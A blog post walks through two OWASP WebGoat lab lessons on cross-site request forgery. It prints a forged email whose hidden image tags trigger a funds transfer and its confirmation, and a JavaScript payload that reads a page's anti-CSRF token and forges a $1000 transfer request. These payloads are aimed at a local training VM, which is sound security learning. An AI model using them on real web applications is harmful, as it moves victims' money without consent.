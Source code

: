 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 9 Continued (Continued)"
date:   2017-01-26 20:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# CSRF Prompt Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains multiple malicious requests: the first to transfer funds, and the second a request to confirm the prompt that the first request triggered. The URL should point to the CSRF lesson with an extra parameter "transferFunds=4000", and "transferFunds=CONFIRM". You can copy the shortcut from the left hand menu by right clicking on the left hand menu and choosing copy shortcut. Whoever receives this email and happens to be authenticated at that time will have his funds transferred. When you think the attack is successful, refresh the page and you will find the green check on the left hand side menu.

Okay, these requests both access the same resource so it's not possible to concantenate them into a single request. Let's try to make an email that contains two hidden request images:

```
Hey everyone,

This is a totally legit email, and most definitely about a topic you care deeply for.
Just thought I would let you know that we are still interested in it as well.
Thanks!

-HackerAttacker@7proxies.net
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=4000 alt="" style="width:1;height:1;">
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=CONFIRM alt="" style="width:1;height:1;">
```

We submit it:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/group-message.jpg">

And when someone clicks it, we transfer funds and bypass the prompt confirmation that would require user interaction!

# CSRF Token Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains a malicious request to transfer funds. To successfully complete you need to obtain a valid request token. The page that presents the transfer funds form contains a valid request token. The URL for the transfer funds page is the same as this lesson with an extra parameter "transferFunds=main". Load this page, read the token and append the token in a forged request to transferFunds.

Okay, so what is a request token? Let's send a request to ```transferFunds=main``` and see if we can see what this token is.

```
GET http://192.168.56.101/WebGoat/attack?Screen=2&menu=900%transferFunds=main HTTP/1.1
```

In the response, we see the value:

```
<input name='CSRFToken' type='hidden' value='541224727'>
```

Which is hidden in the transfer page:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-page.jpg">

When we try to send a transfer request for $1000, the following request is generated:

```
192.168.56.101/WebGoat/attack?Screen=2&menu=900transferFunds=1000&CSRFToken=541224727
```

After sending a few requests, it becomes clear that ```CSRFToken``` is a dynamic field. Alright, so we need to pull the value of the token on each request, and format that value into a CSRF attack on the user utilizing the ```transferFunds``` function. This would be likely true for any multi-user attack even if the fields were static, as we want to target all of the users with the same XSS/CSRF injection. So let's write up a payload:

```
<script>
function transferFunds(token) {
	xmlHTTP = new XMLHttpRequest();
	var transferURL= "attack?Screen=2&menu=900&transferFunds=1000&CSRFToken=" + token;
	xmlHTTP.open("POST", transferURL, false);
	xmlHTTP.send();

	alert("$1000 transferred from " + token)
}
function tokenGrabCSRF() {
	var xmlHTTP = new XMLHttpRequest();
	var tokenURL = "attack?Screen=2&menu=900&transferFunds=main";
	xmlHTTP.open("GET", tokenURL, true);
	xmlHTTP.responseType="document";
	xmlHTTP.onreadystatechange = function () {
		if(xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			var tokenResponse = xmlHTTP.response;
			var tokenHits = tokenResponse.getElementsByName("CSRFToken");
			var token = (tokenHits[0].value);
			// now we attack
			transferFunds(token);
		}
	}
	xmlHTTP.send();
}
tokenGrabCSRF()
</script>
```

So I had to do a little more research on XMLHttpRequests and asynchronous vs. sychronous use of the ```open()``` function. It seems that most browsers don't want you to be using blocking html requests on the main thread, and that is especially true of any malicious code, as we don't want to alert the user to any weird unexplainable behavior in the site. So by using the ```onreadystatechange``` callback we are able to create our asynchronous attack.

The attack starts with the ```tokenGrabCSRF``` call. A request is generated and sent, asynchronously, to the webserver requesting the main transfer page. One important step is changing the value of ```XMLHttpRequest.responseType``` to "document". I was trying to perform this attack for a while by using the ```XMLHttpRequest.responseText``` field from the generic response, and found that the value was truncated to 9995 bytes, which only covered around half of the full response data. This was especially an issue, as the value of ```CSRFToken``` is embedded at the very end of the HTML, so I couldn't regex the value out of the text. By switching the ```responseType``` to "document" we are able to use DOM accession methods to pull the value of the token out of the response, and it doesn't seem to have the same data length restrictions as ```XMLHttpRequest.responseText```.

So continuing...When the state of the request changes ```onreadystatechange``` is triggered, our callback fires off. The callback checks to make sure that the response is a proper response to our request, and then accesses the value stored at the DOM element named```CSRFToken```. Another important note is that the ```document.getElementsByName``` function returns a list regardless of how many hits are in the document. Assumming (luckily correctly) that there was just one element with the token name, we pull the first element from the list and send its value to malicous function 2: ```transferFunds()```

```transferFunds``` is more straightforward. We just make a request to the transfer URL with our requested amount and our newly acquired ```CSRFToken``` value and our attack is complete! This was done synchronously simply because we don't care or need the response or to parse any data from it, so there is no possibility of blocking.

Now that we have completed our payload, we can inject it into an innocent looking email and send it out to our mailing list:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-email.jpg">

And when we click it, the funds are transfered using the stolen token!

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-success.jpg">

So CSRF can be utilized in XSS attacks to leverage the authentication levels of compromised users to perform unwanted actions on the authenticated application.

All your links are belong to us.

### References

[1 XMLHttpRequest Documentation][xml-http-docs]

[xml-http-docs]:https://xhr.spec.whatwg.org/#the-responsetype-attribute